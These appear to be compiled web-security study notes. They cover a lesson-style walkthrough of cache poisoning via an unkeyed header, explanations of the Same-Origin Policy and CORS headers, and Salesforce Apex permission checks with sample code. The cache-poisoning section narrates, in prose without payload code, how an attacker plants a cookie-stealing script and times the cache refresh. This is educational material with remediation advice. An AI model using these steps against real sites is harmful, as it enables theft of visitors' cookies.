When a cache receives a request for some resource, it needs to check if it has already saved a copy of this resource and can return it to the user immediately, or it needs to forward the request to the application server.

Identifying whether the user requests the same resource that is already stored in the cache can be tricky. Caches solve this problem by using the concept of cache keys. Some component of the HTTP request can be set as keys (in cache settings).

When a request comes to the cache server, it checks first which headers of that request are keyed. Then it takes all those keyed headers with their values together and calculates the hash. After that this hash is used to search through the cached responses (responses are stored together with hashes of keyed headers of respective requests).

In the right pane, you can see the animated diagram of the cache using keyed headers to calculate the hash for the incoming request and retrieve the correct cached response to the user. Note that it is a simplified description, and it might be not valid for all existing caching software.

### ATTACK INTRODUCED
The general idea of the Cache Poisoning attack is to make the cache save the resource that contains some malicious data and then serve it to users that request this resource. This attack allows performing a further XSS attack, defacing a page, redirecting a user to an arbitrary domain and bypassing access control mechanisms.

In this lesson, we will talk about basic Cache Poisoning using the unkeyed HTTP request components. During this attack, the hacker will send some malicious content in the unkeyed request header, hoping that it will be used in the response, cached and then served to other users of the application requesting the same resource.

### VULNERABLE APPLICATION
The vulnerable application pane loads the online shopping application LotsOfGoods.me. It uses X-Script-Source custom header to pass a domain name to the server, where this name will be used to generate the URL to run the counter script on the page. This header is unkeyed, so the cache doesn't use it for identification purposes.

### VULNERABILITY DETECTED
Bob is a hacker looking for possibilities for an attack on a yet-another shopping application. He is using his Burp Suite Param Miner plug-in against the LotsOfGoods.me application to find out which components (headers, cookies) of the HTTP request are unkeyed. In the scanning results, he sees that there is an unkeyed parameter in the request: X-Script-Source header.

The name of this header implies that it contains some information that allows detecting the path to the folder that contains scripts, and this path is probably used somewhere in the code of the page.

### VULNERABILITY TESTED
Bob analyzes the code of the web page and finds out that the domain name passed in the X-Script-Source header is used to create an URL of the counter script that is used on the page. Now Bob needs to test how far he can go with the exploitation of that unkeyed request component.

On his malicious server, he creates the folder structure that is the same as in the legitimate script link and puts there his malicious script that steals user cookies.

The only thing he needs to do next is to put the name of his malicious server into the X-Script-Source header of the intercepted request.

### VULNERABILITY EXPLOITED
To poison cache with his malicious request, Bob needs to make sure that he sends it to the application right after the current cached response expires. To define the correct time, he uses the values of the Age header and max-age directive of the Cache-Control header of the server response.

### MALICIOUS RESULT
Now each user that will request the LotsOfGoods.me homepage in the next 2400 seconds will receive Bob's malicious response from the cache server. The script will be executed in their browsers, and their cookies will be stolen.

### REMEDIATION
Manipulating unkeyed HTTP request component, an attacker can do a lot of harm if these components influence the page content. To prevent cache poisoning, you should do the following:

1. Cache only static data.

2. If you are using some third-party service for caching, check which security controls against cache poisoning it provides.

3. Do not trust any data from header directives of the HTTP requests. Always consider it tainted by default.

4. When you cache a page, make sure that all the headers of the HTTP request that influence the page content - are keyed. And vice versa, if some header is unkeyed, don't use it in any business logic that implies influencing the page content.

5. Check if your caching mechanism or framework is configurable to prevent cache poisoning.

### SAME-ORIGIN POLICY INTRODUCED
ame-Origin Policy (SOP) is a major security concept that is built-in in all contemporary browsers. Its main goal is to prevent access attempts of dynamic web page elements (like scripts) to data on resources of a different origin.

In the security context, SOP prevents malicious web sites from retrieving confidential data from restricted locations on behalf of users and without their acknowledgment.

User agents that are compliant with SOP, restrict requests issued from one origin to another origin. For example, popular JS libraries such as JQuery, XmlHttpRequests and Fetch API follow the Same-Origin Policy.

In the right pane, you can see the animated diagram of how SOP works when enabled in the browser.

### ORIGIN DEFINED
To identify an origin, SOP uses the scheme, the hostname (domain name with or without subdomains, or IP address), and the port number. If those three parameters of two resources match, then these resources have the same origin.

### SAME-ORIGIN POLICY DISABLED
Let us consider an example where there is no Same-Origin Policy at all.

Bob creates a website coolnews.me with funny cat pictures and adds there a basic javascript that makes a request to the website of a popular social network friendslist.me, reads the contents of a page with personal details exactly as the authenticated victim would, both body and headers, and sends them to Bob's server.

If he shares a link to his website on his social network page, then everyone who follows that link will involuntarily share their personal details with Bob.

### SAME-ORIGIN POLICY ENABLED
With Same-Origin Policy enabled, the browser allows only some basic HTTP requests (e.g. GET and POST requests without any custom HTTP headers) from the resource of one origin to the resource of another origin, and will never allow a script from the Coolnews.me to read the response from the Friendslist.me (unless CORS is also enabled).

In the case with Bob's malicious page, the browser will first send a preflight request to the Friendslist.me website to ensure that the request is allowed, and, since Friendslist.me knows nothing about Coolnews.me and doesn't trust it, it disallows the access. The browser will then prevent the malicious request from ever being sent.

### CROSS-ORIGIN RESOURCE SHARING INTRODUCED
Cross-Origin Resource Sharing (CORS) is a way to deliberately disable SOP. We may need it for implementation of some business logic that requires sending requests to another origin, like performing interactions with cloud services, creating a single-page design, using sharing or liking functionality, etc.

The main idea of CORS is to negotiate with the server on the conditions of the cross-origin request. As a result, either a resource from one origin will be allowed to send an HTTP request to the resource from another origin and read the contents of the response, or the request will be aborted due to the disabled cross-origin resource sharing.

In the right pane, you can see that the cross-origin request to the server that provides stock market quotes for the news website was aborted.

### PREFLIGHT REQUEST CONDITIONS
For the requests that do not meet the requirements below, negotiation on the conditions of the cross-origin request is performed using a preflight request. Preflight requests are triggered when the following conditions are NOT met.

1. An initial cross-origin request uses GET, HEAD or POST methods. For POST method, only application/x-www-form-urlencoded, multipart/form-data, or text/plain content types are allowed.

2. The cross-origin request doesn't contain custom HTTP headers and includes only the headers explicitly allowed by the CORS policy.

3. No event listeners are registered on an XMLHttpRequestUpload object that is used in the cross-origin request.

4. No ReadableStream objects are used in the cross-origin request.

In other words, a cross-origin request that meets the conditions above doesn't trigger the preflight request.

Instead of the preflight request, negotiation on the conditions is performed using the Origin header in the request, and the Access-Control-Allow-Origin header in the response. If the Access-Control-Allow-Origin header contains the specified origin or an asterisk, the content of the response becomes accessible to the code that performed the request.

### PREFLIGHT REQUEST
When the preflight request is triggered, the initial request is postponed until the server confirms the properties of the request to be sent. The preflight request is an HTTP OPTIONS request that contains Origin header and may include CORS-specific headers.

### CROSS-ORIGIN COMMUNICATION HEADERS
CORS mechanism uses several HTTP headers to agree on cross-origin communication parameters.

Origin

This header indicates the origin that initiates a request

Access-Control-Request-Method

This header indicates the HTTP request methods that will be used in the further cross-origin request

Access-Control-Request-Headers

The header indicates the headers that will be used in the further cross-origin request

Access-Control-Allow-Origin

The header specifies the origin that may access the requested resource. If the header value is * then any origin may access the resource.

Access-Control-Max-Age

The header specifies how long information from Access-Control-Allow-Methods and Access-Control-Allow-Headers should be cached.

Access-Control-Allow-Methods

The header specifies the method or methods that may be used in the original cross-origin requests to the resource.

Access-Control-Expose-Headers

The header specifies the list of headers that browsers are allowed to access in the original cross-origin header when a requester processes the response.

Access-Control-Allow-Credentials

The header indicates that the server will accept the original request if it contains credentials. In this case, credentials may be one of the following: HTTP cookies, TLS certificates, and HTTP authentication headers.

In order to use credentials, the requesting origin should declare that their usage explicitly e.g. set XHRObject.withCredentials = true or set a fetch request credentials mode to "include".

The header usually contains "true" value or is not present.

Access-Control-Allow-Headers

The header specifies the headers that may be used in the original cross-origin requests to the resource. Simple response headers are available by default, but custom headers will require whitelisting.

## Apex Security and Sharing
Apex runs in system context - the current user's permissions, field-level security, and sharing rules are not taken into account during code execution.
Web services can be restricted by permissions, but execute in system context once they are initiated.

Enforcing sharing rules by using the with sharing keyword doesn’t enforce the user's permissions and field-level security. Apex code always has access to all fields and objects in an organization, ensuring that code won’t fail to run because of hidden fields or objects for a user.

Enforcing the current user's sharing rules can impact:
• SOQL and SOSL queries. A query may return fewer rows than it would operating in system context.
• DML operations. An operation may fail because the current user doesn't have the correct permissions. For example, if the user specifies a foreign key value that exists in the organization, but which the current user does not have access to.

Apex doesn't enforce object-level and field-level permissions by default, you can enforce these permissions in your SOQL queries by using `WITH SECURITY_ENFORCED`.

Enforce object-level and field-level permissions in your code by explicitly calling the sObject describe result methods (of `Schema.DescribeSObjectResult`) and the field describe result methods (of `Schema.DescribeFieldResult`) that check the current user's access permission levels. In this way, you can verify if the current user has the necessary permissions, and only if he or she has sufficient permissions, you can then perform a specific DML operation or a query.

For example, you can call the `isAccessible`, `isCreateable`, or `isUpdateable` methods of `Schema.DescribeSObjectResult` to verify whether the current user has read, create, or update access to an sObject, respectively.

`Schema.DescribeFieldResult` exposes access control methods to call to check the current user's read, create, or update access for a field.  In addition, you can call `isDleteable` method provided by `Schema.DescribeSObjectResult` to check if the current user has permission to delete a specific sObject.

### Calling Access Control Methods
To check the field-level update permission of the contact's email field before updating it:
```java
if (Schema.SObjectType.Contact.fields.Email.isUpdateable()) {
    // Update email address
}
```

To check the field level create permission of the contact's email address field before creating a new contact:
```java
if (Schema.SObjectType.Contact.fields.Email.isCreateable()) {
    // Create new contact
}
```

To check the field-level read permission of the contact's email field before querying for this field:
```java
if (Schema.SObjectType.Contact.fields.Email.isAccessible()) {
    Contact c = [SELECT Email FROM Contact WHERE Id =:Id];
}
```

To check the object-level permission for the contact before deleting the contact
```java
if (Schema.SObjectType.Contact.isDeletable()) {
    // Delete contact
}
```

If you call the `SObject describe result` and `field describe result` access control methods, the verification of object and field-level permissions is performed in addition to the sharing rules that are in effect.
* Sometimes, the access level granted by a sharing rule could conflict with an object-level or field-level permission.

## Apex Class Security
Specify which users can execute methods in a top-level class based on their user profile or permission sets.  You can only set security on Apex classes and not on permission sets.

## Apex Managed Sharing
Sharing is the act of granting a user or group of users permission to perform a set of actions on a record or set of records. Sharing access can be granted using the Salesforce user interface and Lightning Platform, or programmatically using Apex.

Sharing enables record-level access control for all custom objects, as well as many standard objects (such as Account, Contact, Opportunity and Case). Administrators first set an object’s organization-wide default sharing access level, and then grant additional access based on record ownership, the role hierarchy, sharing rules, and manual sharing. Developers can then use Apex managed sharing to grant additional access programmatically with Apex.
